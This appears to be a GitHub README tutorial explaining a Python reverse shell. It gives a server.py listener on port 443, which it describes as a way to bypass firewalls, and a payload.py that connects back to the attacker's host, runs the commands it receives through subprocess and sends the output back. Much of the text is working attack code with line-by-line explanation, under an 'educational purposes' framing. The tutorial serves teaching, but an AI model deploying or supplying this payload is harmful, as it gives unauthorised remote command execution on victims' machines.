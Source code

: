 # Reverse-Shell
A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the attacker’s host. Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack. Reverse shells can also work across a NAT or firewall.
One of the most known frameworks that ethical hackers use in order to create and commnunicate with a reverse shell is MSFVenom and MSFconsole. 

How does it work?? 
To understand the mecanism i decided to write a simple reversehell in python in order to expalin the basics of the reverse shell theory.

# Requirements
To do so we need these common python libraries: 

### socket:
This module provides access to the BSD socket interface. It is available on all modern Unix systems, Windows, MacOS, and probably additional platforms.
The Python interface is a straightforward transliteration of the Unix system call and library interface for sockets to Python’s object-oriented style: the socket() function returns a socket object whose methods implement the various socket system calls. Parameter types are somewhat higher-level than in the C interface: as with read() and write() operations on Python files, buffer allocation on receive operations is automatic, and buffer length is implicit on send operations.

### OS
This module provides a portable way of using operating system dependent functionality. We are going to use this library in order to execute the commands sent by the attacker on the victim machine

### sys
Python sys module has several methods and variables that can alter various aspects of the Python runtime environment. It permits operating on the interpreter by giving access and information about the constants, variables, and functions that have a strong interaction with the interpreter.

### subprocess
The subprocess module allows you to spawn new processes, connect to their input/output/error pipes, and obtain their return codes.

# Code explication

## server.py
this is the script the hacker will be running on his machine/server this code is going to accpet and establish communication with the client side.

Coding the server side we only need the sockett libaray.

```
server_host= "0.0.0.0"
server_port= 443
data_size = 1024 * 128
SEPARATOR = "<sep>"
cyber = socket.socket()
```
As you can understand from the variable names the server_host is the IP address of our server/attacker_machine we used the IP 0.0.0.0 in order to make the server reachable through all the IPv4 addresses of the server. For the server_port I used the port 443. We can use any port we want but the port 80 and 443 are widely used to bypass firewalls. data_size is the maximum ammoun of data that the client can send to the server and viceversa.
SPERATOR is the seperation between the data sent or received.

then I created a socket and I called it cyber this is what we are going to use in the second part of our code.

Let's bind the socket that we created to out server IP and port that we initiated in the first two commands.
```
cyber.bind((server_host,server_port))
```
One of the most important part in creating such server is that it should have the ability to listen and accept incoming requests that why we need this two lines:
```
cyber.listen(10)
client_socket, client_ip = cyber.accept()
```
the listen function will allow us to listen to the incoming connections and the paramater 10 I used is the maximum length to which the queue of pending connections for sockfd may grow. That means if we receive 12 requests before we accept the connection then 2 of these requests will be droped.
The second line means that we accepted the connection from the client (our victim machine) and we stored the victim_socket and the victim_adress in two different variabales.
```
print(f"{client_ip[0]}:{client_ip[1]} Connected!")
```
This output will have the following format IP:PORT connected!
The first step we will do after having a connected client is to try and get the working directory on the victims devices this is why we will use the following code:
```
cmd = client_socket.recv(data_size).decode()
print("[+] Current working directory:", cmd)
```
A lot of people will be aseked why I used the decode function will because we need to encode the data in bytes to be sent theough the victim socket.
The main process of sending commands to the victims device will be in this part of the code:
```
while True:
    command = input(f"{cmd}~$ ")
    if not command.strip():
        continue
    client_socket.send(command.encode())
    if command.lower() == "exit":
        break
    output = client_socket.recv(data_size).decode()
    results,cmd = output.split(SEPARATOR)
    print(results)
```
basicly what we are doing is that we are verifying if the command which is the input of the hacker is not blank if it's the case then we will encode the command and send it to the victim. If hte command in lower case is exit then we will break out that means we will shutdown the server and then the communication with the client will die. If the process is executed correctly then we can receaive data from the victim and output. This is what the last 3 lines of code are doing on our server code.

## payload.py
The payload is the portion of the malware which performs malicious action. In our case the payload is the script that will be running on the victims device. 

let's start by importing the needed libraries and setting up the varaibles we will use in order to establish the communication with the attackers server.
```
server_host = #server_IP
server_port = 443
data_size = 1024 * 128
SEPARATOR = "<sep>"
victim = socket.socket()
victim.connect((server_host,server_port))
```
This is made for educational purposes and the main goal is to explain the theory behind revere shells this is why we cab see that the hacker's IP will be in plain text. In real life senarios the payload is obfuscated so it will be so hard to identify the hackers IP.
For this part the only difference we got from the server code is in the last line victim.connect and not bind because the victim will try to connect on the server we already created.
Well the server is waiting fot our working directory this is why we should send it first to do that we will use the OS library to run a local command wich is cwd the current working directory and we will send it through the socket this is done by the following code:

```
cmd = os.getcwd()
victim.send(cmd.encode())
```

the main job of the payload is that it will execute the commands sent by the attacker to do so we need to accept the received data using this line of code:
```
    command = victim.recv(data_size).decode()
    splited_command= command.split()
```
all what we have to do is to verify that the command is not blank, if it's an exit then we will shutdown the communication then we will store the output of the executed commands and send it back to the server. All of this is made possible by this code:
```
while True:
    command = victim.recv(data_size).decode()
    splited_command= command.split()
    if command.lower() == "exit":
        break
    if splited_command[0].lower() == "cd":
        try:
            os.chdir(''.join(splited_command[1:]))
        except FileNotFounfError as e:
            output = str(e)
        else:
            output = ""
    else:
        output = subprocess.getoutput(command)
    cmd = os.getcwd()
    message = f"{output}{SEPARATOR}{cmd}"
    victim.send(message.encode())
victim.close()
```

author: cybereagle2001

used refrences : pythoncode - acunetix - docs.python - stackoverflow -wikipedia 
